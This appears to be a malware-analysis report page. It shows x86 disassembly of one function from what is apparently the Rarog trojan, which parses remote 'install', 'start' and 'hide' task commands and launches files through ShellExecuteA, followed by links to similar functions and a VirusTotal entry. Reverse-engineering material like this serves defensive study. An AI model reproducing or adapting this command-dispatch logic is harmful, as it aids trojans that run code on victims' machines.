 xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406796
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x488],esp
mov dword[ecx+0x14],0xf
mov dword[ecx+0x10],ebx
push str.Rarog___New_task__type:_install
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
lea eax,[ebp-0x150]
mov esi,esp
mov dword[ebp-0x488],esp
push eax
call fcn.004026e3
sub esp,0x1c
mov byte[ebp-4],0x73
lea eax,[ebp-0x1c0]
mov esi,esp
mov dword[ebp-0x480],esp
push eax
call fcn.004026e3
mov byte[ebp-4],0x72
call fcn.004018e2
cmp dword[ebp-0x190],0x10
mov esi,dword[ebp-0x1a4]
jae 0x40672d
lea esi,[ebp-0x1a4]
push 6
mov edi,str.start
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406796
cmp dword[ebp-0x190],0x10
mov esi,dword[ebp-0x1a4]
jae 0x406750
lea esi,[ebp-0x1a4]
push 5
xor eax,eax
mov eax,dword[ebp-0x150]
mov edi,str.hide
pop ecx
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406776
cmp dword[ebp-0x13c],0x10
jae 0x406773
lea eax,[ebp-0x150]
push ebx
jmp 0x406787
cmp dword[ebp-0x13c],0x10
jae 0x406785
lea eax,[ebp-0x150]
push 5
push ebx
push 0x4282a0
push eax
push ebx
push ebx
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
cmp dword[ebp-0x120],0x10

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6